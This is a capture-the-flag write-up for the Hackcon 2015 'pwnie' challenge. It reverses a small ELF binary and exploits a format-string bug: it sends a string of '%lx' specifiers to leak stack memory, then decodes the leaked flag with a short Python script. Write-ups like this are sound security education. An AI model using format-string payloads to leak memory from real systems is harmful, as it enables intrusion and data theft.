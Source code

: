 ```yaml
---
layout: post
title:  "Hackcon 2015: Did you mean"
categories: hackcon2015
tags: pwn
date: 2015-08-20 19:00:00
---
```


> Category: *pwn* - Points: *50*
>
> Description: *Pwnie*

The task provides us with the file [`pwnie`]({{ site.url }}/assets/hackcon2015/pwnie) and an ip and address for a webservice.

    $ file pwnie
    pwnie: ELF 64-bit LSB  executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=b87bef02278df740b6c0011e989f39b08ccfc998, not stripped

Let's try to run it:

    $ ./pwnie
    No!

Ok, sorry. Let's check the output of `strings`. The only interesting ones are:

    flag.txt
    The flag's right!
    Did you say:

So it seems that the file `flag.txt` is involved. Let's create it with content: `ABCDEFGHIJKLMNOP` and run the program again. Now the program waits for our input and if we put again `ABCDEFGHIJKLMOP` this happens:

    $ ./pwnie
    ABCDEFGHIJKLMNOP
    The flag's right!

Ok, we have to produce some interesting payload, let's start IDA and decompile the `main`. We also added some comment in the code to highlight the important parts.

{% highlight c %}
...
  v3 = fopen("flag.txt", "r");
  if ( v3 )
  {
    fgets((char *)&v7, 100, v3);  // v7 is the content of v3 (flag.txt)
    fgets(&s, 100, stdin);        // s is the string from the stdin
    v4 = strncmp(&s, (const char *)&v7, 0xAuLL); 
    if ( v4 )   // if they do not match
    {
      v4 = 0;
      puts("Did you say: ");
      fflush(_bss_start);
      __printf_chk(1LL, &s);      // print the user input
      fflush(_bss_start);
    }
    else
    {
      puts("The flag's right!");  // the flag is correct
      fflush(_bss_start);
    }
  }
  else                            // the file does not exist
  {
    v4 = -1;
    puts("No!");
    fflush(_bss_start);
  }
  v5 = *MK_FP(__FS__, 40LL) ^ v9;
  return v4;
}
{% endhighlight %}

There is a *string format exploit* in the line:

    __printf_chk(1LL, &s);

The user input is treated as format string. So we can exploit this to dump the stack and get our flag. Since the program is in 64 bits we need to use the placeholder `%lx` to print a whole memory block. The `fgets` is told to copy 100 bytes, so we can join 33 times `%lx` in order to get more data from the stack.

    $ ./pwnie
    %lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx%lx

The output is:

> 07f7ef00e68707f7ef05c374004847464544434241504f4e4d4c4b4a49a00007f7ef05e45207fff414a69807fff414a6970f63d4e2e40043625786c25ffffffff786c25786c25786c6c25786c25786c2525786c25786c2578786c25786c25786c6c25786c25786c2525786c25786c2578786c25786c25786c6c25786c25786c2525786c25786c2578786c25786c25786c6c25786c25786c25786c25786c257839cc7d2e1411990007f7ef001cec50

We can easily spot the part that holds the content of the file stored in little endian:

    4847464544434241504f4e4d4c4b4a49

So the interesting part comes after 26 bits. We can use python to convert the stack into readable data:

{% highlight python %}
data = "07f7ef00e68707f7ef05c374004847464544434241504f4e4d4c4b4a49a00007f7ef05e45207fff414a69807fff414a6970f63d4e2e40043625786c25ffffffff786c25786c25786c6c25786c25786c2525786c25786c2578786c25786c25786c6c25786c25786c2525786c25786c2578786c25786c25786c6c25786c25786c2525786c25786c2578786c25786c25786c6c25786c25786c25786c25786c257839cc7d2e1411990007f7ef001cec50"

for i in xrange(26, len(data), 16):
    print repr(data[i:i+16].decode('hex')[::-1])
{% endhighlight %}

The result is:

    'ABCDEFGH'
    'IJKLMNOP'
    'R\xe4\x05\xef\xf7\x07\x00\xa0'
    '\xff\x07\x98\xa6\x14\xf4\xff\x07'

We can use the same technique on the webservice and get the flag: `FORMAT(STR)`.

